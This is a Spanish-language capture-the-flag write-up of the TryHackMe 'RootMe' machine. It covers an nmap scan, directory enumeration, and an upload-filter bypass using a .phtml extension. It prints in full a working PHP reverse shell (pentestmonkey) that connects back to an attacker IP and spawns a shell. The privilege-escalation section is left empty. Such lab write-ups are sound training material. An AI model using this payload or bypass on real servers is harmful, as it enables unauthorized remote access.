










# RootMe
> Máquina de nivel **fácil** en TryHackMe. El objetivo es obtener acceso inicial mediante una vulnerabilidad en PHP y luego escalar privilegios a root explotando permisos indebidos.

**Tags:** `reverse shell` `priv esc` `php` 

[1. Enumeración](#enumeración)  
[2. Reverse Shell](#reverse-shell)  
[3. Priv Esc](#priv-esc)  
[4. Notas Finales](#notas-finales)

## Enumeración

Para comenzar, hacemos un escaneo rápido usando `nmap`.
```shell
sudo nmap -sS -Pn -A 10.10.120.74 --top-ports 100
```

Despliega dos puertos abiertos *(SSH y HTTP)*.  



Usando esta información, procedemos a buscar en el navegador.



Al inspeccionar la página no notamos gran cosa. Sin embarago, podemos usar una buena herramienta para encontrar directorios públicos. Para esto, usamos `dirsearch`.

```shell
dirsearch -u http://10.10.120.74/
```

Como resultado, obtenemos 3 directorios abiertos.
- CSS/
- panel/
- uploads/



Al hacer una búsqueda sobre estos directorios sobre nuestro index, nos damos cuenta que los directorios ***panel*** y ***uploads*** nos sirven.

1. ***Panel***: Nos permite cargar archivos.

    

2. ***Uploads***: Vacío (por el momento). Mas adelante nos ayudará a recuperar los archivos subidos.

    


### Panel

Al jugar un rato en el directorio `panel/`, nos damos cuenta que está sanitizado (no del todo), ya que no permite cargar archivos ejecutables. Se hizo la prueba con una captura de pantalla y el resultado fue el siguiente

- Carga de archivo en formato `.png` en `panel`.


- Recuperar archivo en `uploads`



Una vez corroborado esto, buscamos alguna forma de obtener un reverse shell a través de algún archivo ejecutable.

## Reverse Shell

Para confirmar el lenguaje que maneja el backend, se utiliza una extensión llamada `wappalyzer`.



> El lenguaje usado es ***PHP***. Posibles extensiones: `.php`, `.phtml`, `.php3`, `.php4`, `.phps`.

Después de un rato, notamos que la máquina efectivamente acepta archivos con extensión `.phtml`.

Procedemos a buscar algún payload para usar una reverse shell a nuestra computadora.

Nos ayudamos de [Revshells Generator](https://www.revshells.com/) para encontrar algún payload que nos ayudé a crear la reverse shell. Para esto ponemos a nuestra computadora a escuchar en algún puerto (en mi caso usaré el 4444).



<details>
<summary>El payload encontrado fue el siguiente:</summary>
<br>

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.21.126.44';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
    
    if ($pid) {
        exit(0);  // Parent exits
    }
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }

    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}

?>
```
</details> 

---

Una vez escuchando sobre este puerto y el payload cargado, procedemos a hacer clic sobre él (en mi caso `payload4.phtml`) y automáticamente el servidor web ejecutará el código.



***Y ESTAMOS DENTRO***

Una vez dentro, procedemos a buscar la bandera. La propia plataforma nos dice que se encuentra en el archivo `user.txt`.

Usamos el siguiente comando para filtrar:

```shell
find / -type f -name user.txt 2>/dev/null
```



## Priv Esc

## Notas finales

Esta es la primera máquina que pwneé, le tengo mucho cariño. 

Mis agradecimientos a Isaac, me ha dado buena guiada en CTFs.

